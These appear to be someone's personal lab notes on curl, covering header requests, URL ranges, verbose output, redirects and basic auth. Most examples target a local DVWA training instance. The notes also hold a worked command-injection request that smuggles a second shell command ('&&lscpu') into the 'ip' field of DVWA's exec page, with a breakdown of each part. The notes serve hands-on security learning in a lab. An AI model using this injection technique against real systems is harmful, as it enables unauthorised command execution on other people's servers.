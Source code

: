 https://www.youtube.com/watch?v=I6id1Y0YuNk

Launched 1998 
230 command line options

-I just returns the head
curl -I http://192.168.10.123/dvwa/
![[Screenshot 2025-01-09 at 3.56.45 pm.png]]

curl https://example.com/[1-9].html

curl https://example.com/[a-z].htmlcurl 

curl https://example.com/[1-20:3].html - o save_#1.html (will save )


curl --verbose https://example.com/[a-z].html (very important for troubleshooting)

curl  -L http://192.168.10.123/dvwa/vulnerabilities/fi/?page=include.php
	-L will show the redirect

Without:![[Screenshot 2025-01-09 at 5.24.52 pm.png]]

With:
![[Screenshot 2025-01-09 at 5.25.33 pm.png]]
man 
curl -u user:password
![[Screenshot 2025-01-23 at 4.59.52 pm.png]]


After quite a few attempts and a small bit of AI help: 
	curl -vv -b "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" --data "ip=192.168.10.123%26%26lscpu&Submit=Submit" http://192.168.10.123/dvwa/vulnerabilities/exec/

Lets break this down... 

- curl -----(http swiss army knife)
- -vv -----very verbose
- -b ----set-cookie
- "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" ---- cookie
- --data ------ includes url-encoded injection payload
- "ip=192.168.10.123%26%26lscpu&Submit=Submit" ------ payload
- http://192.168.10.123/dvwa/vulnerabilities/exec/


![[Screenshot 2025-01-24 at 7.28.53 am.png]]

![[Screenshot 2025-01-24 at 7.28.13 am.png]]

